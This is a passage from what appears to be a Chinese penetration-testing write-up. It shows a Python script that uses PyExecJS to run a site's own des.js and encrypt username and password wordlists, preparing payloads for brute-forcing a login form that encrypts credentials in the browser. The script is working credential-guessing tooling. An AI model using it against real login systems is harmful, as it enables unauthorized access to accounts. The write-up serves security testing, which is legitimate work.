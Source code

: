 这里还需要从页面源代码找到加密方法的参数

[![](assets/1698897578-dd51b1052f1834ae58dbd4477cd26ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206155833-789d33c6-48b6-1.png)

pip install PyExecJS

再安装PhantomJS（可选），或者用默认的js解析引擎也行。（execjs.get().name）

加密脚本：生成加密后的用户名和密码

```plain
#coding:utf-8
#from selenium import webdriver
import execjs


def mzDes(s,para):
    despara = execjs.get('phantomjs').compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

    s = mzCrypto.read()
    with open('users.txt','r') as users:   #des username
        with open('des_users.txt','w') as f4DesUser:
            user = users.readlines()
            for u in user:
                uname = u.strip()
                print uname
                desUsername = mzDes(s,uname)
                print desUsername
                f4DesUser.write(desUsername+'\n')



    with open('pwdTop54.txt','r') as pwds:   #des password
        with open('des_pwds.txt','w') as f4DesPwd:
            pwd = pwds.readlines()
            for p in pwd:
                passwd = p.strip()
                print passwd
                desPassword = mzDes(s,passwd)
                print desPassword
                f4DesPwd.write(desPassword+'\n')
```

[![](assets/1698897578-1b899042250d2090f70282e8302ef61f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160018-b78c9ec8-48b6-1.png)  